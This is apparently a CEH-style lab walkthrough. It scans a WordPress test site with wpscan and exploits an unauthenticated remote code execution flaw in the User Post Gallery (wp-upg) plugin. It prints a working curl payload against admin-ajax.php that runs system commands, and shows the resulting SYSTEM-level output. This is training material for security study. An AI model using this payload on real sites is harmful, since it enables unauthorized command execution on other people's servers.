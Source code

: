 
switch to the Windows  2022 machine and login with CEH\Administrator .

Click Type here to search field on the Desktop, search for wampserver64 in the search bar and select Wampserver64 from the results.

Now, in the right corner of Desktop, click the Show hidden icons icon, observe that the WampServer icon appears.

Wait for this icon to turn green, which indicates that the WampServer is successfully running.

Now, open any web browser, and go to http://10.10.1.22:8080/CEH/wp-login.php? (here, we are using Mozilla Firefox).

A WordPress webpage appears. Type Username or Email Address and Password as admin and qwerty@123. Click the Log In button.

Assume that you have installed and configured User Post Gallery plugin

Hover your mouse cursor on Plugins in the left pane and click Installed Plugins, as shown in the screenshot.

In the Plugins page, observe that User Post Gallery is installed. Click Activate under the User Post Gallery plugin to activate the plugin.

switch to the Parrot  machine.

Open Mozilla Firefox web browser and go to https://wpscan.com/ and login to the wpscan account that you have created in previous task.

You get signed in successfully in the website. Now, click the Get Started button and click Start for free button under Researcher section.

The Edit Profile page appears; in the API Token section and observe the API Token. Note down or copy this API Token; we will use this token in the later steps.

Close the Firefox browser window.

In the Parrot Security machine, open a Terminal window and execute sudo su to run the programs as a root user (When prompted, enter the password toor).

Now, run cd command to jump to the root directory.

In the Terminal window, run wpscan --url http://10.1XXX:8080/CEH --api-token API Token from Step 13 command.

The result appears, displaying detailed information regarding the target website.

Scroll down to the Plugin(s) Identified section, and observe the installed vulnerable plugins (wp-upg) on the target website.

In the Plugin(s) Identified section, within the context of the wp-upg plugin, an Unauthenticated Remote Code Execution (RCE) vulnerability has been detected as shown in the screenshot.

In this task, we will exploit the RCE vulnerability present in the wp-upg plugin.

To perform RCE attack, run curl -i 'http://10.XXX/CEH/wp-admin/admin-ajax.php?action=upg_datatable&field=field:exec:whoami:NULL:NULL' command.

This curl command exploits a WordPress plugin vulnerability by sending a malicious request to the admin-ajax.php file, allowing an attacker to execute arbitrary system commands via the exec function, potentially leading to remote code execution.

In the last step, whoami command was executed, yielding the outcome nt authority\ \system

This concludes the demonstration of performing RCE attack.